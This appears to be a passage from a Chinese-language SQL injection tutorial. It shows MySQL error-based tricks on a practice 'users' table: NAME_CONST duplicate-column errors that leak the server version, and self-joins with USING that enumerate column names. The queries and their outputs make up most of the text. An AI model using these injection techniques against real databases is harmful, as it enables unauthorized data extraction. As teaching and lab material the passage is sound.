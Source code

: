 ```sql
mysql> select * from (select NAME_CONST('HelloWorld',1),NAME_CONST('HelloWorld',2));
    ERROR 1248 (42000): Every derived table must have its own alias # 报错，子查询作为表时必须指定别名

mysql> select * from (select NAME_CONST('HelloWorld',1),NAME_CONST('HelloWorld',2)) AS x;
    ERROR 1060 (42S21): Duplicate column name 'HelloWorld' # HelloWorld被爆出来了

mysql> select * from (select NAME_CONST('HelloWorld',1),NAME_CONST('HelloWorld',2))x; # 也可以忽略AS关键字
    ERROR 1060 (42S21): Duplicate column name 'HelloWorld'
```

我们发现错误信息中包含重复的列名。利用这一点，我们可以将payload放入列名中：

```sql
# 爆数据库版本
mysql> select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
    ERROR 1060 (42S21): Duplicate column name '5.5.53'
```

然而高版本的[官方文档](https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_name-const)明确表示，`name_const()`函数中的所有参数只能为常量，因此无法执行任意payload，所以该方法只适用于低版本（>5.0.12）：

> - `NAME_CONST(name,value)`
>
>   Returns the given value. When used to produce a result set column, NAME_CONST() causes the column to have the given name. **<u>The arguments should be constants</u>**.

既然`name_const()`行不通，那我们就试试用其他方法获取列名。例如每张表的列名就是现成的列名，我们可以爆列名：

```sql
mysql> select * from users a join users b; # 构建含有重复列名的Subquery
+----+----------+------------+----+----------+------------+
| id | username | password   | id | username | password   |
+----+----------+------------+----+----------+------------+
|  1 | Dumb     | Dumb       |  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |  1 | Dumb     | Dumb       |
| .. | ......   | ......     | .. | ......   | ......     |
| 14 | admin4   | admin4     | 14 | admin4   | admin4     |
+----+----------+------------+----+----------+------------+

mysql> select * from (select * from users a join users b) c;
	ERROR 1060 (42S21): Duplicate column name 'id' # 爆出一个名为id的字段
```

但是这样只能爆出一个字段。于是我们使用`USING`子句删除已知名称的字段：

```sql
mysql> select * from users a join users b using(id);
+----+----------+------------+----------+------------+
| id | username | password   | username | password   |
+----+----------+------------+----------+------------+
|  1 | Dumb     | Dumb       | Dumb     | Dumb       |
| .. | ......   | ......     | ......   | ......     |
| 14 | admin4   | admin4     | admin4   | admin4     |
+----+----------+------------+----------+------------+
13 rows in set (0.00 sec)

mysql> select * from users a join users b using(id,username);
+----+----------+------------+------------+
| id | username | password   | password   |
+----+----------+------------+------------+
|  1 | Dumb     | Dumb       | Dumb       |
| .. | ......   | ......     | ......     |
| 14 | admin4   | admin4     | admin4     |
+----+----------+------------+------------+
13 rows in set (0.00 sec)

mysql> select * from users a join users b using(id,username,password);
+----+----------+------------+
```